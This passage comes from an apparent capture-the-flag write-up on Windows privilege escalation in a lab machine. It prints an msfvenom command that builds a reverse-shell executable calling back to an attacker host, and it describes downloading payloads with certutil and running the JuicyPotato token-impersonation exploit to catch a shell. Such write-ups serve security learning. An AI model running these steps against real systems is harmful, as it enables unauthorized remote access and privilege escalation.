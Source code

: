 After successfully finding a attack vector, I created a priv.bat file including a basic reverse sell using the nc.exe. While that did not work however, a different reverse shell had created by using MSFvenom to generate a payload using the following command: 

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=$IP LPORT=9002 -f exe > rev.exe
```

-   **-p**: specifies type of payload to generate
-   **LHOST**: set listening IP address
-   **LPORT**: set listening port
-   **-f**: specifies output format to use
-   **>**: write output to specified filename

Once the payload is generated, it can be sent to the target machine and executed. This will open a connection back to the machine specified in the LHOST argument, allowing the attacker to run commands on the target machine as if they were physically sitting at the keyboard.

### 3.4 Token Impersonation:<a name="34-token-impersonation"></a>

In order to gain elevated privileges on the targeted Windows machine, I navigated to the **\temp** folder using the command prompt and downloaded two files from my http server, "rev.exe" and "JuicyPotato.exe" using the  `certutil` command.

Next, I found the appropriate **CLSID** for the version of Windows by visiting a website that lists them:

![image](images/alfred-17.png)<br />
##### [http://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise/](http://ohpe.it/juicy-potato/CLSID/Windows_7_Enterprise/)

With everything in place, I used the JuicyPotato exploit to escalate my privileges on the target machine. This exploit allows me to execute a payload, in this case `rev.exe`, and create a reverse shell on port 9002 using a specific CLSID. I also used the `-t` option to try both CreateProcessWithTokenW and CreateProcessAsUser methods. I had a Netcat listener running on my attacking machine to catch the reverse shell.
>**CreateProcessWithTokenW** is a Windows API function that allows a process to start another process with a specified token. This can be used to launch a process with different permissions or security context.
>
>**CreateProcessAsUser** is a similar function, but it allows a process to start another process with a specified token and user profile. This is typically used to launch a process in the context of a different user.
